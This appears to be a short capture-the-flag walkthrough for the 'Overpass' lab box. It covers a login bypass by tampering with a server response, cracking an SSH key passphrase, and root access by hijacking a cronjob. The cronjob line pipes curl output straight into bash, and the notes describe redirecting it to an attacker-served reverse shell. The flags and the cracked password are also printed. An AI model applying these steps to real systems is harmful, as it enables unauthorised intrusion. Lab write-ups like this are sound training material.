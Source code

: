 ```
Overpass - 10.10.60.76
```

# Ports Open - 22,80

# Details of Ports:
22		ssh
80		http

# Findings + Exloitation:
> found "/admin" in the website
> found a "login.js" file
> found that it is vuln
> it checks for "Incorrect Credentials" display
> used burp to edit the response and cleared the "Incorrect Credentials"
> got in
> got a id rsa key but encrypted
> used ssh2john to get hash
> cracked it using john
> password was "james13"
> logged in using the id rsa and the password
> got in
> user.txt:
	thm{65c1aaf000506e56996822c6281e6bf7}
> ran linpeas and found /etc/hosts writeable
> also found a cronjob running:
	* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
> so edited the /etc/hosts file with our ip address and domain as "overpass.thm" also made the directories on our webserver
> set up a rev shell on "buildscript.sh" and a listener
> after a min got root!
	thm{7f336f8c359dbac18d54fdd64ea753bb}